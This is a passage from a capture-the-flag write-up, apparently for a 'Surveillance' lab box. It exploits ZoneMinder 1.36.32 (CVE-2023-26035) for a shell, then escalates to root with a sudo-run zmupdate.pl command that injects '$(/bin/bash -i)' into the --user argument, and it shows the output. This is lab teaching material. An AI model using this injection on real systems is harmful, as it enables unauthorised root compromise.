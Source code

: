 _zoneminder has Version 1.36.32_
Exploring further, I discovered `zoneminder` version 1.36.32, vulnerable to [CVE-2023-26035](https://github.com/rvizx/CVE-2023-26035).
I used this exploit and I got the reverse shell like this 🔻
![Image](Pasted%20image%2020240218221500.png)
_Unauthenticated Remote Code Execution through exploit_
Exploiting this vulnerability, I gained root access and retrieved the root flag:
```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
zoneminder@surveillance:/usr/share/zoneminder/www$ 
```
{: .nolineno}
I find the same files and I got these ->
```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ find /usr/bin/zm[a-zA-Z]*.pl
</share/zoneminder/www$ find /usr/bin/zm[a-zA-Z]*.pl
/usr/bin/zmaudit.pl
/usr/bin/zmcamtool.pl
/usr/bin/zmcontrol.pl
/usr/bin/zmdc.pl
/usr/bin/zmfilter.pl
/usr/bin/zmonvif-probe.pl
/usr/bin/zmonvif-trigger.pl
/usr/bin/zmpkg.pl
/usr/bin/zmrecover.pl
/usr/bin/zmstats.pl
/usr/bin/zmsystemctl.pl
/usr/bin/zmtelemetry.pl
/usr/bin/zmtrack.pl
/usr/bin/zmtrigger.pl
/usr/bin/zmupdate.pl
/usr/bin/zmvideo.pl
/usr/bin/zmwatch.pl
/usr/bin/zmx10.pl
zoneminder@surveillance:/usr/share/zoneminder/www$ 
```
{: .nolineno}
I used this `zmupdate.pl` command to execute the shell command like this ->
```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/bin/bash -i)' --pass=ZoneMinderPassword2023
```
{: .nolineno}
Now lets see the result ➡️
```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo /usr/bin/zmupdate.pl --version=1 --user='$(/bin/bash -i)' --pass=ZoneMinderPassword2023
<ser='$(/bin/bash -i)' --pass=ZoneMinderPassword2023

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
```